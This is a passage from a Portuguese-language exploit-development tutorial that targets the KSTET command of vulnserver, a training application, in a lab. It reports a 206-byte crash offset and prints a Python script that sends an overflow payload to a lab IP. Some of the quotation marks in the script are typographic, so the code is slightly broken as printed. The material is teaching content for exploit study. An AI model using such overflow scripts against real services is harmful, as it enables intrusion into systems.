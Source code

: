 Ao rodar nosso script, temos o retorno da quantidade de bytes para estouro de buffer.

![Enumaração do comando.](/std/winbof/winbof-63.png)

Temos um offset de 206 bytes para causarmos o crash, vamos esboçar nosso script e testar com o vulnserver no Immunity Debugger.

xplkstet.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payload
offset = 206

# payload
payload = b”KSTET ”
payload += b"A" * offset

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

# enviando payload
print("Enviando payload...")

s.send(payload + b”\r\n”)
s.close()

print("Payload enviado.")
```

